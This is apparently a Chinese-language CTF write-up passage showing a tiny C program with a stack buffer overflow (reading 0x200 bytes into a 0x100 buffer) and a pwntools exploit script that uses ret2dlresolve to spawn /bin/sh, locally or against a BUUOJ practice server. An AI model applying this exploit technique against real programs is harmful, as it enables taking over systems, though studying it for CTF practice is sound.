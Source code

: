 ```c
#include<stdio.h>

void vuln()
{
    char content[0x100];
    read(0, content, 0x200);
}

int main(){
    vuln();
    return 0;
}
```

这里的偏移量是`0x10c`（用`gdb`调的），而读取长度为`0x200`（`read`函数的第三个参数为`0x200`）。

由此，我们写下如下脚本即可：

```python
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './pwn'
context.arch='i386'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )


offset = 0x10c
read_length = 0x200

rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol="execve", args=["/bin/sh\x00", 0, 0])

# data_addr是表示ret2dlresolve的payload存放在什么地址。该参数是Ret2dlresolvePayload类中的一个可选参数。
# 若不主动选择，则会由pwntools挑选一个合适的地址
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

payload = flat({offset:raw_rop, read_length:dlresolve.payload})
sh.send(payload)
print(rop.dump())
sh.interactive()
```

